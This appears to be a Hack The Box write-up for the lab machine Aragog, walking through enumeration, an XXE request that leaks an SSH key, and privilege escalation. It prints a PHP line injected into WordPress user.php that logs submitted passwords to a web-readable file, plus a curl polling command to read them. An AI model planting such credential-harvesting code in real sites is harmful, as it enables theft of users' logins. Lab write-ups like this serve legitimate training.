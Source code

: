 1.  First you've to enumerate the machine with [Nmap](</General Info/Tools/Enumeracion/Nmap.md>) and also use [GoBuster](</General Info/Tools/Enumeracion/GoBuster.md>) and [Wfuzz](</General Info/Tools/Enumeracion/Wfuzz.md>) in order to find some files of the page.

2. After doing all this enumeration you'll find a `test.txt` file in the ftp with the anon user listed in Nmap. Another thing you could find is the file hosts.php with the [Wfuzz](</General Info/Tools/Enumeracion/Wfuzz.md>) tool. Once you've this two things you can combine them with the usage of curl to send a payload via a [XXE - XML External Entities Injection](</General Info/Tecnologias Web/Ataques/XXE - XML External Entities Injection.md>). The command you've to run is `curl -s -X POST -d @test.xml http://aragog.htb/hosts.php` in order to execute the curl tool in Silent mode, with the POST method and sending the content of the test.xml file as the body. The code that you should have in the test.xml file is in the [Aragog - Code](</HTB Machines/Code & Data/Aragog - Code.md>) resource.

3. Once you've sent that payload you will get the id_rsa of the user __Florian__

4. Now that you've used the id_rsa to get into the system via [SSH](</General Info/Tools/SSH.md>), you have to do some [Things to enumerate (Machine)](</General Info/Enumeration/Things to enumerate (Machine).md>). The thing that will pay off at the end is the usage of Pspy or the coding of a procmon tool to look for processes that run at a certain amount of time. The code can be seen in [Aragog - Code](</HTB Machines/Code & Data/Aragog - Code.md>).

5. Once you've done this kind of enumeration you'll come acorss a certain tool called wp-login.py that's being executed regularly. Only the name gives us the idea that the script is making smth log into an account. Because of this behaviour and the fact that you've control over the Wordpress root directory you can intercept the credentials that are being sent by modifing the file user.php to make the login script create a file with the credentials that are being used to login the user in. The only thing that you've to do is add the following line in the part that looks if the credentials are being sent:
```
if (!empty($_POST['pwd']))
	$credentials['user_password'] = $_POST['pwd']
	
	file_put_contents("/var/www/html/dev_wiki/log.txt", $_POST['log'] . " : " . $_POST['pwd'], FILE_APPEND)  # INSERTED MALICIOUS CODE
```
The main purpose of this added line is to create a file called __log.txt__ that contains the user and password sent via the POST method with the script called `wp-login.py`.

6. Now that you've all set up the only thing that's left is wait. You can do it by running the command `watch -n 1 curl -s -X GET "http://aragog.htb/dev_wiki/log.txt"` and looking for the content of the file until it changes into the credentials of the Administrator user of the page.

7. The last thing of the machine is, because the user has the bad habit of reusing the credentials, issue the command `su root` and enter the password obtained from the previous exploit. Now you can freely go to `/root` and cat out the __root.txt__ file and go to `/home/florian` and also cat out the __user.txt__ file.

### Things to have in mind

- Sometimes when you compromise a machine that runs Wordpress, you can go on and look for the file __wp-config.php__ in the root wordpress directory and find valid credentials for the databases running on the server. 